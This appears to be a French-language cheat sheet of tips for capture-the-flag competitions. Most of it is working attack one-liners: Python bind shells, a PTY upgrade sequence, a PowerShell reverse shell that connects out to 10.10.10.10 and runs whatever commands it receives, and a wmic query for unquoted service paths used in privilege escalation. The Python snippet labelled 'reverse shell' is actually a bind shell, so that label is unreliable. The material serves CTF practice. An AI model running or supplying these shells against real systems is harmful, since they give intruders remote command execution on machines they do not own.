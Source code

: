 Tips et tools utiles pour les CTFs

# Tips
## Unix 

### Obtenir un shell
Reverse shell
```
python -c "import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.bind(('',PORT));s.listen(1);conn,addr=s.accept();os.dup2(conn.fileno(),0);os.dup2(conn.fileno(),1);os.dup2(conn.fileno(),2);p=subprocess.call(['/bin/bash','-i'])"
```
Bind shell
```
python -c "import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.bind(('',2222));s.listen(1);conn,addr=s.accept();os.dup2(conn.fileno(),0);os.dup2(conn.fileno(),1);os.dup2(conn.fileno(),2);p=subprocess.call(['/bin/bash','-i'])"
```
Améliorer le shell en pty et avoir l'autocomplétion:
```
python -c "import pty; pty.spawn('/bin/bash')"
CTRL+Z
stty -a |cut -d';' -f2-3 | head -n1
stty raw -echo
fg

#### Dans le webshell ###
export SHELL=bash
export TERM=xterm256-color
stty rows 38 columns 116
```
### Powershell Reverse shell OneLiner (@Nikhil SamratAshok Mittal)
```
$client = New-Object System.Net.Sockets.TCPClient("10.10.10.10",80);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

### Checking on exploitable Unquoted Service Path
```
wmic service get name,pathname,displayname,startmode | findstr /i auto | findstr /i /v "C:\Windows\\" | findstr /i /v """
```

### Whenever inspiration is missing, check these tools
Checker les différents tools : https://github.com/zardus/ctf-tools

## Steganography
Test zsteg

Cheat sheet : https://pequalsnp-team.github.io/cheatsheet/steganography-101
